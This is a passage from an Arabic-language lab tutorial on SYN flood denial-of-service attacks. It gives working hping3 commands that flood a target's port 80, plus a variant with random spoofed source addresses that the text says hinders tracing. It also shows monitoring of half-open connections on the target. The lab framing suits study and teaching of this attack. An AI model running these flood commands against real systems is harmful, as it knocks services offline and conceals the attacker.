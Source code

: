 ### 🔬 التطبيق العملي (بيئة مختبرية فقط)

#### البيئة المطلوبة
- آلة افتراضية للمهاجم (Kali Linux)
- خادم اختبار معزول
- شبكة محلية منعزلة تماماً

#### الأداة: hping3

**التثبيت:**
```bash
sudo apt update
sudo apt install hping3
```

**الهجوم الأساسي:**
```bash
sudo hping3 -S -p 80 --flood TARGET_IP
```

**الشرح:**
- `-S`: إرسال حزم SYN فقط
- `-p 80`: استهداف المنفذ 80 (HTTP)
- `--flood`: إرسال أسرع ما يمكن (بدون انتظار)
- `TARGET_IP`: عنوان الخادم المستهدف

**هجوم متقدم مع عناوين مزيفة:**
```bash
sudo hping3 -S -p 80 --flood --rand-source TARGET_IP
```

- `--rand-source`: عناوين IP مصدر عشوائية
- يُصعّب تتبع المهاجم
- يتجاوز بعض آليات الحماية البسيطة

### 📊 المراقبة على الخادم المستهدف

#### عرض الاتصالات نصف المفتوحة

```bash
netstat -ant | grep SYN_RECV
```

**مثال على النتائج أثناء الهجوم:**
```
tcp    0    0 192.168.1.50:80    10.0.0.100:45123    SYN_RECV
tcp    0    0 192.168.1.50:80    10.0.0.101:45124    SYN_RECV
tcp    0    0 192.168.1.50:80    10.0.0.102:45125    SYN_RECV
tcp    0    0 192.168.1.50:80    10.0.0.103:45126    SYN_RECV
... (مئات أو آلاف السطور)
```

#### مراقبة استهلاك الموارد

```bash
# عرض قائمة الانتظار
ss -tan | grep SYN-RECV | wc -l

# مراقبة الذاكرة
free -h

# مراقبة CPU
top
```
